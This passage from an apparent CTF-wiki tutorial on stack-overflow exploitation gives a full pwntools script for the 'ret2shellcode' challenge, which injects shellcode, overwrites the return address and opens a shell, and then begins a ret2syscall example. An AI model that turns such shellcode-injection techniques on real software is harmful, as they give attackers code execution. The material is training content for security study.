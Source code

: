 
So this time we control the program to execute the shellcode, which is to read the shellcode, and then control the program to execute the shellcode at the bss section. Among them, the corresponding offset calculation is similar to the example in ret2text.


The specific payload is as follows


```python

#!/usr/bin/env python

from pwn import *



sh = process('./ret2shellcode')

shellcode = asm (shellcraft.sh ())
buf2_addr = 0x804a080



sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))

sh.interactive()

```



### Title


- sniperoj-pwn100-shellcode-x86-64



## ret2syscall



### Principle


Ret2syscall, that is, the control program executes the system call and gets the shell.


### Examples


Here we take ret2syscall in bamboofox as an example.


点击下载: [ret2syscall](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall/rop)


First check the protection of the program open
